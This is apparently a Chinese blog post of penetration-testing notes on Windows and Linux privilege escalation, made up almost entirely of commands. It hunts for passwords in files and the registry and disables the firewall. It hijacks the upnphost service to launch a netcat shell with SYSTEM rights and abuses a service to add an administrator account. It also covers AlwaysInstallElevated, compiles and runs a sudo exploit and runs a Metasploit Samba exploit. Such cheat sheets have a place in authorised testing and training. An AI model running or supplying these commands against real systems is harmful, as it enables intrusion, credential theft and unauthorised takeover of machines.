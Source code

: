 ```yaml
---
title: 域渗透(提权篇)
date: 2018-01-09 15:20:00
categories:
   - 技术相关
tags:
   - 域渗透
   - 笔记
---
```

<!-- more -->
## 0x01 常见信息收集

    dir /a-r-d /s /b                                 检查文件夹可写状态
    dir /b/s password.txt                            查找密码文件或其它敏感文件
    dir /b/s config.*
    findstr /si password *.xml *.ini *.txt 
    findstr /si login *.xml *.ini *.txt 
    C:\sysprep.inf
    C:\sysprep\sysprep.xml
    C:\Windows\Panther\Unattend\Unattended.xml
    C:\Windows\Panther\Unattended.xml
    dir /s *pass* == *cred* == *vnc* == *.config*    搜索system32关键字的文件
    findstr /si password *.xml *.ini *.txt           搜索某些特定的文件类型
    reg query HKLM /f password /t REG_SZ /s          搜索注册表中包含password
    reg query HKCU /f password /t REG_SZ /s
    netsh firewall show config                       显示 Windows 防火墙配置
    netsh firewall show state                        显示 Windows 防火墙的当前状态 
    netsh firewall set opmode disable                关闭防火墙
    netsh advfilewall set publicprofile state off
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"    获取操作系统信息
    systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"         
    schtasks /query /fo LIST /v                      计划任务 [国外调整 chcp 437]
    route print                                      查看路由表
    arp -A                                           查看ARP缓存

## 0x02 upnphost提权

    sc qc Spooler                 查询，配置，和管理Windows服务
    accesschk.exe -ucqv Spooler   检查每个服务需要的权限   XP_SP2被修复
    攻击手法：
        sc qc upnphost
        sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e    C:\WINDOWS\System32\cmd.exe"
        sc config upnphost obj= ".\LocalSystem" password= ""
        sc qc upnphost
        net start upnphost
        执行netcat并且使用SYSTEM权限反弹一个shell
        sc config PFNET binpath= "net user admin P@ssword123! /add"
        sc stop PFNET
        sc start PFNET
        sc config PFNET binpath= "net localgroup Administrators admin /add"
        sc stop PFNET
        sc start PFNET

## 0x03 服务与权限

    DRIVERQUERY                 安装驱动
    wmic product list brief     查看安装程序和版本信息. [可能存在漏洞]
    wmic service list brief     查看服务、进程和启动程序信息
    wmic process list brief
    wmic startup list brief
    wmic qfe get Caption,Description,HotFixID,InstalledOn   查看安装补丁和时间信息
    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KBxxxxxxx"
    wimc process where(description="进程名")       结合tasklist /svc 
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """    列出目标机器上所有没有用引号包含的服务路径
    tasklist /v /fo list /fi "USERNAME eq NT AUTHORITY\SYSTEM"  筛选NT AUTHORITY\SYSTEM权限进程
    icacls "C:\Program Files (x86)\360"     查看路径中受影响文件夹的权限



## 0x04 补丁对应Exp
补丁对比 https://github.com/GDSSecurity/Windows-Exploit-Suggester

    pip install xlrd --upgrade
    ./windows-exploit-suggester.py --update
    [+] writing to file 2014-06-06-mssb.xlsx 
    输入“systeminfo”输入，并将其指向微软数据库
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo     win7sp1-systeminfo.txt 
    未修补漏洞存在的exp
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext     'windows server 2008 r2'


## 0x05 AlwaysInstallElevated提权

    http://www.greyhathacker.net/?p=185
    如果这个设置被启用，它允许任何权限的用户暂时使用NT AUTHORITY\SYSTEM权限来安装*.msi文件。
    AlwaysInstallElevated且它的DWORD值是1才有效。
    https://github.com/SecWiki/windows-kernel-exploits
    https://github.com/SecWiki/linux-kernel-exploits
    可以利用Advanced Installer(http://www.advancedinstaller.com/)生成msi安装包

## 0x06 查看.msi程序的执行权限

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

## 0x07 查看是否设置有setuid和setgid

    reg query HKEY_Local_Machine\System\CurrentControlSet\Services\NfsSvr\Parameters\SafeSetUidGidBits

    CVE-2017-1000367
        系统必须启用selinux
        sudo需要用selinux支持（sudo -r）
        用户需要具有sudo权限
    gcc -o sudopwn sudopwn.c -lutil
    ./sudopwn

枚举系统设置和权限的检查
http://www.securitysift.com/download/linuxprivchecker.py

## 0x08 基于操作系统的内核版本号

    https://github.com/PenturaLabs/Linux_Exploit_Suggester
    ./Linux_Exploit_Suggester.pl -k 内核版本号[例如3.10,结合uname -a]

## 0x09 检测权限提升向量的shell脚本

    https://github.com/pentestmonkey/unix-privesc-check
    unix-privesc-check standard
    unix-privesc-check detailed

下载和解压缩脚本RootHelper
https://github.com/NullArray/RootHelper

## 0x10 CVE-2017-7494[Samba]

    http://fuping.site/2017/05/25/Samba-Remote-Code-Execution-Vulnerability-Replication/
    use exploit/linux/samba/is_known_pipename
    set RHOST 192.168.232.137
    set target 3
    exploit

## 0x11 内核提权

    lsb_release -a
    uname -a
    python -c 'import pty; pty.spawn("/bin/bash")'
    suid 提权 [有限制]
    find / -perm -u=s -type f 2>/dev/null

from:
https://04z.net/2017/07/10/AD-Attacks-go/
